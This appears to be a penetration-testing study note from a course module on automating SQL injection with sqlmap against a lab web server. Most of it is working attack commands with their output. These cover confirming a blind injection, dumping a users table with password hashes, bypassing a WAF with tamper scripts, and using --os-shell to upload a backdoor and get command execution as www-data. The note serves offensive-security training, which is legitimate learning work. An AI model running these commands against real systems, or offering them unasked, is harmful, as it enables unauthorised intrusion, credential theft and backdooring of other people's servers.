

---
tags:
  - phase/exploitation
---

# Automating the attack

10.3.2. Automating the attack

The SQL injection process we followed can be automated using several tools pre-installed on Kali Linux. In particular, sqlmap can identify and exploit SQL injection vulnerabilities against various database engines.

Let's run sqlmap on our sample web application. We will set the URL we want to scan with -u and specify the parameter to test using -p:

sqlmap -u
[http://192.168.50.19/blindsqli.php?user=1](http://192.168.50.19/blindsqli.php?user=1)
-p user

> [!example] sqlmap confirms the injection
> Pass the full URL with `-u` (the `user` parameter set to a dummy value) and accept the default prompts. sqlmap confirms a time-based blind SQLi and fingerprints the stack:
> ```
> Parameter: user (GET)
>     Type: time-based blind
>     Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
> web server operating system: Linux Debian
> web application technology: PHP 7.3.33, Apache 2.4.52
> back-end DBMS: MySQL >= 5.0.12
> ```

Although the above command confirmed that the target URL is vulnerable to SQLi, we can extend our tradecraft by using sqlmap to dump the database table and steal user credentials.

> [!info] Stealth caveat
> sqlmap automates SQLi well but is extremely loud — it generates a high volume of traffic. Avoid it as a first choice on engagements where you need to stay under the radar.

To dump the entire database, including user credentials, we can run the same command as earlier with the --dump parameter.

sqlmap -u
[http://192.168.50.19/blindsqli.php?user=1](http://192.168.50.19/blindsqli.php?user=1)
-p user --dump

> [!example] Dumping the users table
> Re-run with `--dump`. With no `-D`/`-T` given, sqlmap enumerates the current database (`offsec`), finds the `customers` and `users` tables, and dumps the `users` columns (`id`, `username`, `password`, `description`) row by row:
> ```
> id | username | password (MD5)                    | description
> 1  | admin    | 21232f297a57a5a743894a0e4a801fc3  | this is the admin
> 2  | ...      | f9664ea1803311b35f...             | try harder
> ```
> Because this is a time-based blind SQLi, extraction is slow (sqlmap auto-adjusts the delay), but it eventually recovers every user's hashed credentials.

> [!example] Scoping the dump instead of grabbing everything
> `--dump` with no scope enumerates and dumps the *entire* server, which is slow and noisy. Narrow it down step by step instead:
> ```sh
> sqlmap -u "http://192.168.50.19/blindsqli.php?user=1" -p user --dbs              # list databases
> sqlmap -u "http://192.168.50.19/blindsqli.php?user=1" -p user -D offsec --tables # list tables in offsec
> sqlmap -u "http://192.168.50.19/blindsqli.php?user=1" -p user -D offsec -T users --columns  # list columns
> sqlmap -u "http://192.168.50.19/blindsqli.php?user=1" -p user -D offsec -T users --dump     # dump just that table
> ```

> [!tip] When the default scan finds nothing or the app is WAF-protected
> - Push harder: `--level=5 --risk=3` tries far more injection points and payload variants (slower, but catches what the defaults miss).
> - If keywords are being filtered/blocked, add a tamper script (chainable with commas): `--tamper=space2comment,between,charencode`.
> - Pin the DBMS to skip fingerprinting noise: `--dbms=mysql`.
> - Always prefer `-r request.txt` over `-u` for POST/login forms — a raw Burp-saved request carries cookies, headers, and the exact body sqlmap needs.

Another sqlmap core feature is the

## --os-shell

parameter, which provides us with a full interactive shell.

Due to their generally high latency, time-based blind SQLi are not ideal when interacting with a shell, so we'll use the first UNION-based SQLi example.

First, we need to intercept the POST request via Burp and save it as a local text file on our Kali VM.

> [!example] Capturing the POST request for sqlmap
> Intercept the search POST in Burp and save it to a file (e.g. `post.txt`). The key part is the body carrying the vulnerable parameter:
> ```
> POST /search.php HTTP/1.1
> Host: 192.168.50.19
> Content-Type: application/x-www-form-urlencoded
> Cookie: PHPSESSID=...
>
> item=test
> ```
> Then feed the file to sqlmap with `-r`, name the vulnerable parameter with `-p item`, and add `--os-shell` plus `--web-root` pointing at the writable folder found earlier.


> [!example] Getting an interactive os-shell
> sqlmap prompts for the web app language (choose `4` for PHP), uploads a file stager and backdoor into `/var/www/html/tmp/` (falling back to the UNION method if needed), then hands you an `os-shell>` prompt for issuing normal system commands:
> ```
> os-shell> id
> command standard output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
> os-shell> pwd
> command standard output: /var/www/html/tmp
> ```
> You now have command execution as `www-data`.

```sh
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
 4
id
y
pwd
y
```

## Visual Flow



> [!success] What success looks like
> sqlmap prints "parameter ... is vulnerable" and identifies the technique (e.g. "time-based blind", back-end DBMS MySQL). With `--dump` it slowly retrieves rows of the users table including hashes. With `--os-shell` it uploads a backdoor and gives `os-shell>` where `id` returns `uid=33(www-data)`.

> [!danger] Common errors
> - "missing database parameter" → narrow the scope with `-D <db>` and `-T <table>` instead of dumping everything.
> - Endless `[Y/n]` prompts (cookies, redirects, optimization) → add `--batch` to accept defaults automatically.
> - Time-based dumps crawl and may drop the connection → expected for blind SQLi; let sqlmap auto-adjust the delay, or prefer a UNION/error point for `--os-shell`.
> - `--os-shell` needs a writable web folder → pass `--web-root "/var/www/html/tmp"` so the stager is reachable over HTTP.
> - Encoding/quoting of the saved request file → see [[🔣 Encoding Reference]].
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> **sqlmap** automates everything you did by hand: it finds the injection, figures out the DBMS, and pulls data or drops a shell. Feed it either a URL (`-u`) or a saved HTTP request (`-r request.txt`, ideal for POST/login forms captured in Burp). Note it is loud — not a stealthy tool.

---
%% graph-links %%
## Related
- [[Manual code execution]]
- [[Blind SQL injections]]

> [!info] Navigation
> Section: [[SQL Injection Attacks/Manual and automated code execution/_index|Manual and automated code execution]] · Home: [[🏠 Home]]

